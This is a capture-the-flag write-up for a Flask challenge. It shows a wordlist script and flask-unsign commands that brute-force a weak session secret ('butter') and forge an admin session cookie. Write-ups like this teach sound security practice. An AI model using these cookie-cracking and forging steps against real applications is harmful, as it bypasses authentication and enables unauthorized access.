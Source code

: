 ```python
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```

We see that to read the `flag`, the session must contain `very_auth=admin`. In this challenge, `authentication` is handled through a `Flask session cookie`. According to the source code, the `secret_key` is randomly chosen from a fixed list named `cookie_names`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

I wrote a `script` to generate a simple wordlist for the `secret_key` values
```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

flag = ""

for i in cookie_names:
    flag += i + '\n'

with open('secret.txt', 'w') as f:
    f.write(flag)
```

use `flask-unsign` tool

![image](https://hackmd.io/_uploads/r1TXaNockl.png)

`payload`
```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z7286w.HI1jct9eu6VURYKhRWpRwwlFcp4" --wordlist secret.txt
```

![image](https://hackmd.io/_uploads/ByaVpEs9Jg.png)

`secret_key = butter`

Okay, now we just need to modify the `very_auth` value to admin, and we're done!
`payload`
```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "butter"
```

